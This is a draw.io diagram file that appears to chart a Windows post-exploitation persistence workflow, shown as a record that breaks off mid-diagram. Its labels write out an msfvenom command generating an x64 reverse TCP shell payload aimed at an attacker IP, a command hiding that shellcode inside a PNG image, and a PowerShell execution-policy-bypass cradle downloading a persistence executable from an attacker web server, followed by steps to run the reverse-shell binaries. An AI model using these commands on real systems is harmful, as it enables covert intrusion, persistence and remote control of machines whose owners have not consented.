 <mxfile version="20.7.4" type="github" pages="2">
  <diagram id="C5RBs43oDa-KdzZeNtuy" name="Overall">
    <mxGraphModel dx="1400" dy="614" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-1" parent="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-2" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-3" target="G-sO2mh2Iyi2BEA4O4LV-14" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-3" value="Initial Access Shell" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="30" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-4" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="WIyWlLk6GJQsqaUBKTNV-10" edge="1">
          <mxGeometry y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="G-sO2mh2Iyi2BEA4O4LV-17" edge="1">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="370" y="120" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-6" value="Establish Medium IL Persistance" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="135" y="170" width="170" height="100" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-8" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="WIyWlLk6GJQsqaUBKTNV-11" edge="1">
          <mxGeometry x="0.333" y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-10" value="" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="170" y="340" width="100" height="80" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-11" value="" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="170" y="1110" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-15" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-14" target="WIyWlLk6GJQsqaUBKTNV-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-14" value="Create Medium IL Tools Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="90" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-17" target="P6aCfQ930mBBJoiv-hOj-9">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-17" value="Update Persistance Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="30" width="1130" height="140" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-19" value="Pers_Medium.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="20" y="40" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-21" value="Medium IL Tools Directory" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-19" vertex="1">
          <mxGeometry y="30" width="150" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-23" value="Reverse_9001.cpp&#xa;Reverse_9002.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="200" y="40" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-25" value="Medium IL Tools Directory" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-23" vertex="1">
          <mxGeometry y="30" width="150" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-30" value="9001.png&#xa;9002.png" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="400" y="40" width="140" height="90" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-31" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-32" value="Appropriate Port" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-37" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; payload_reverse_shell_port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="550" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-57" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-49" target="P6aCfQ930mBBJoiv-hOj-24" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-49" value="Stage Persistance Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="460" width="690" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-39" value="Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-51" value="Reverse_9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-52" value="Reverse_9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-53" value="9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="440" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-54" value="9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="570" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-16" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-9" target="G-sO2mh2Iyi2BEA4O4LV-49">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-9" value="Compile Persistance Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="470" y="230" width="880" height="180" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-12" value="Compile EXE&#39;s" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-9">
          <mxGeometry x="70" y="40" width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-13" value="Pers_Medium.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-12">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-14" value="Reverse_9001.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-12">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-15" value="Reverse_9002.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-12">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-35" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-38" value="cp original.png combined.png; cat payload_reverse_shell_port#.raw &amp;gt;&amp;gt; combined.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-24" value="Execute Persistence Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="470" y="618" width="980" height="252" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-5" value="Download staged binaries and png&#39;s to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-7" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/Pers_Medium.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-0" value="Execute Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-1" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="P6aCfQ930mBBJoiv-hOj-24" source="G-sO2mh2Iyi2BEA4O4LV-5" target="P7n5YuG6-lRFGP6FSJ7v-0">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-0" value="Execute Reverse_9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FFFFFF;strokeColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="470" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;dashed=1;" edge="1" parent="P6aCfQ930mBBJoiv-hOj-24" source="P7n5YuG6-lRFGP6FSJ7v-0" target="P6aCfQ930mBBJoiv-hOj-0">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="415.0" y="155.0" as="sourcePoint" />
            <mxPoint x="505" y="225" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-1" value="Execute Reverse_9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FFFFFF;strokeColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="470" y="170" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-2" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="P6aCfQ930mBBJoiv-hOj-24" source="P7n5YuG6-lRFGP6FSJ7v-0" target="P6aCfQ930mBBJoiv-hOj-1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-5" value="Read Payload From 9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FFFFFF;strokeColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="660" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="P6aCfQ930mBBJoiv-hOj-24" source="P6aCfQ930mBBJoiv-hOj-0" target="P6aCfQ930mBBJoiv-hOj-5">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-6" value="Read Payload From 9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FFFFFF;strokeColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="660" y="170" width="120" height="50" as="geometry" />
        </mxCell>
